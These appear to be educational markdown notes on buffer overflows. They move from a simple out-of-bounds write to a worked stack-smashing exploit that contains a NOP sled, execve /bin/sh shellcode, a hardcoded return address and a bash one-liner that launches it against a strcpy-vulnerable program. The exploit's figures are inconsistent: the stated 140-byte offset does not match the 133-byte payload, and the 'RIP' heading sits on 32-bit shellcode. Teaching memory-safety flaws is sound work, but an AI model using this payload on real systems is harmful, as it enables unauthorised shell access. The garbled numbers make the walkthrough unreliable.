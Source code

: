 > [!idea] Buffer Overflow
> A buffer overflow occurs when an operation **interacts with memory outside of a specified array**. This happens when a program writes data beyond the allocated buffer's boundaries.
> 
> - Occurs when accessing array elements beyond its defined size
> - Can overwrite adjacent memory, including other variables or critical data
> - Potential to modify return addresses, leading to arbitrary code execution

> [!example] Simple Buffer Overflow
> ```c
> char name[4];  // Array of 4 characters
> name[5] = 'a'; // Accessing 6th element (index 5) - out of bounds!
> ```
> This example demonstrates writing beyond the array's allocated memory, potentially overwriting adjacent data.

> [!consider] Implications of Buffer Overflows
> - **Data Corruption**: Overwriting adjacent variables or data structures
> - **Security Vulnerabilities**: Potential to modify sensitive information
> - **Control Flow Hijacking**: Overwriting return addresses to execute arbitrary code
> 
> Buffer overflows can be particularly dangerous when they allow attackers to manipulate a program's execution flow, potentially leading to unauthorized access or code execution.

> [!example] Vulnerable C Function
> ```c
> void vulnerable_function() {
>     char buffer[8];
>     int important_flag = 0;
>     
>     printf("Enter your name: ");
>     gets(buffer);  // Dangerous! No bounds checking
>     
>     if (important_flag != 0) {
>         printf("How did you do that?\n");
>     }
> }
> ```
> 
> In this example:
> - `buffer` is allocated 8 bytes
> - `important_flag` is stored adjacent to `buffer` in memory
> - `gets()` is used, which doesn't perform bounds checking
> - An attacker could input more than 8 characters to overflow `buffer` and modify `important_flag`
> 
> ```
> Memory layout:
> [buffer (8 bytes)][important_flag (4 bytes)]
> ```
> 
> By inputting 12 or more characters, an attacker overwrites `important_flag`, potentially bypassing security checks or altering program behavior.

> [!example] Buffer Overflow Exploit: Overwriting RIP
> Vulnerable C code:
> ```c
> void func(char *arg) {
>     char buffer[64];
>     strcpy(buffer, arg);  // Vulnerable: no bounds checking
> }
> 
> int main(int argc, char *argv[]) {
>     if (argc > 1) func(argv[1]);
>     return 0;
> }
> ```
> 
> Goal: Execute unauthorized commands by manipulating the program's memory.
> 
> Exploit process:
> 1. Analyze the program's memory layout:
>    - Input buffer starts at address 0xffffd1f0
>    - Stored return address at 0xffffd27c
>    - Offset: 140 bytes
> 
> 2. Craft a payload:
>    ```python
>    nop_sled = "\x90" * 80
>    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>    filler = "A" * 26
>    new_rip = "\xfc\xd1\xff\xff"  # 0xffffd1fc in little-endian
>    payload = nop_sled + shellcode + filler + new_rip
>    ```
> 
>    Payload components:
>    - NOP sled: 80 bytes of harmless instructions (0x90) that do nothing
>    - Shellcode: 23 bytes of machine code to spawn a shell
>    - Filler: 26 bytes of 'A's to reach the return address location
>    - New return address: Points to our NOP sled (0xffffd1fc in little-endian)
> 
>    The NOP sled allows our exploit to work even if we don't guess the exact memory address. The new return address is in little-endian format because x86 systems store multi-byte values with the least significant byte first.
> 
> 3. Feed the payload to the program:
>    ```bash
>    ./vulnerable_program $(python -c 'print "\x90"*80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
>    ```
> 
> 4. Exploit execution:
>    - Payload overflows the buffer, overwriting the original return address
>    - When func() returns, it jumps to our NOP sled
>    - Execution slides through the NOPs to our shellcode
>    - The shellcode runs, spawning a shell with elevated privileges
> 
> This exploit succeeds because the program blindly copies input without checking its length, allowing us to overwrite critical data on the stack and control the program's execution flow.


